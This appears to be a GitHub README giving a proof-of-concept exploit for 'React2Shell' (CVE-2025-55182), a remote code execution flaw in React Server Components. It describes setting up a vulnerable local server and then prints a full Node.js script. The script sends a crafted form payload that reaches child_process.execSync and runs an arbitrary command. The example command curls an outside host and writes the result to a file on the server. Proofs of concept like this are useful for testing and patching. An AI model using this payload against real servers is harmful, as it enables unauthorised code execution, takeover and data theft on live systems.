

# POC to exploit React2Shell (CVE-2025-55182) 

## Install the vulnerable web server
 
**Do it with caution**
```
npm install
npm run build
npm run start
```

Load the web page on localhost:3000



## Run the exploit

create the following script and run it using node, then referesh the page, you will see that we were able to create a new file on the server 

```
// Enter your RCE command here
const rce = 'curl \'https://api.ipify.org?format=json\' >> resources/exploit.txt';

const payload = {
    '0': '$1',
    '1': {
        'status':'resolved_model',
        'reason':0,
        '_response':'$4',
        'value':'{"then":"$3:map","0":{"then":"$B3"},"length":1}',
        'then':'$2:then'
    },
    '2': '$@3',
    '3': [],
    '4': {
        '_prefix':'process.mainModule.require("child_process").execSync("'+rce+'")//',
        '_formData':{
            'get':'$3:constructor:constructor'
        },
        '_chunks':'$2:_response:_chunks',
    }
}
const FormDataLib = require('form-data')
const fd = new FormDataLib()

for (const key in payload) {
    fd.append(key, JSON.stringify(payload[key]))
}

function exploitNext(baseUrl) {
    fetch(baseUrl, {
        method: 'POST',
        headers: {
            'next-action': 'x',
            ...fd.getHeaders()
        },
        body: fd.getBuffer()
    }).then(x => {
        console.log('fetched', x)
        return x.text()
    }).then(x => {
        console.log('got', x)
    })
}
exploitNext('http://localhost:3000')

```